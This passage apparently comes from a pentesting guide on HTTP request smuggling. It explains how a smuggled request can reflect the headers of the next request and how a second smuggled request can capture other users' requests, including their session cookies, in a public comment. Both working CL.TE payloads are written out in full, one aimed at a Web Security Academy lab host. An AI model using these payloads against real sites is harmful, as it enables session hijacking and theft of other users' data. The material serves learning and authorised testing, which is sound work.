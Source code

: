 \`POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 130  
Connection: keep-alive  
Transfer-Encoding: chunked  
0

POST /search HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 100

search=\`

In this case the next request will be appended after `search=` which is also **the parameter whose value is going to be reflected** on the response, therefore it's going to **reflect the headers of the next request**.

Note that **only the length indicated in the `Content-Length` header of the embedded request is going to be reflected**. If you use a low number, only a few bytes will be reflected, if you use a bigger number than the length of all the headers, then the embedded request will throw and error. Then, you should **start** with a **small number** and **increase** it until you see all you wanted to see.  
Note also that this **technique is also exploitable with a TE.CL** vulnerability but the request must end with `search=\r\n0\r\n\r\n`. However, independently of the new line characters the values are going to be appended to the search parameter.

Finally note that in this attack we are still attacking ourselves to learn how the front-end proxy is rewriting the request.

### Capturing other users' requests <a id="capturing-other-users-requests"></a>

If you can find a POST request which is going to save the contents of one of the parameters you can append the following request as the value of that parameter in order to store the quest of the next client:

\`POST / HTTP/1.1  
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 319  
Connection: keep-alive  
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi  
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1  
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net  
Content-Length: 659  
Content-Type: application/x-www-form-urlencoded  
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=HACKTRICKS&email=email%40email.com&comment=\`

In this case, the value of the **parameter comment** is going to be **saved inside a comment** of a post in the page that is **publicly available**, so a **comment will appear with the content of the next request**.
